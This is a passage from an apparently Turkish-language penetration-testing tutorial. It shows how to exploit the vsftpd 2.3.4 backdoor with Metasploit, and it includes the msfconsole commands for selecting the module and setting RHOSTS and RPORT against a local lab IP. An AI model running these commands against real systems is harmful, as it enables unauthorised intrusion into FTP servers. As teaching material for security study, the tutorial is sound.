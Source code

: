 - Bulduğumuz versiyon ile google da basit bir `vsftpd 2.3.4 exploit` şeklinde arama gerçekleştiriyoruz
- Örnek adrese [buradan](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor) erişebilirsiniz
- Aşağıda (örnek adres için geçerli, diğer sitelerde konum değişebilir) ki gibi **işaretli** alanı kopyalayıp `msfconsole` içerisinde kullanmamız gerekiyor

![msfconsole version](./assets/23-exploit-version.png)

- Hangi exploiti kullanmak istediğimizi belirtiyoruz
```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > 
```
- `show options` ile seçenekleri/parametreleri görebiliriz. Buradaki **RHOST** hedef IP'yi temsil etmektedir. **RPORT** ise hedef ile hangi port üzerinden iletişime geçmek istediğimizi belirtir
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

>>> module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)

                                                                                                                                                                      
Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
- `set RHOSTS <IP>` ile Hedef IP'yi, `set RPORT <PORT>` ile iletiişim için kullanılacak port numarasını set edebiliriz
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.179
>>> RHOSTS => 192.168.1.179
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
>>> RPORT => 21
```
- `exploit` komutunu çalıştırarak hedef cihazı sömürmeye başlayabiliriz
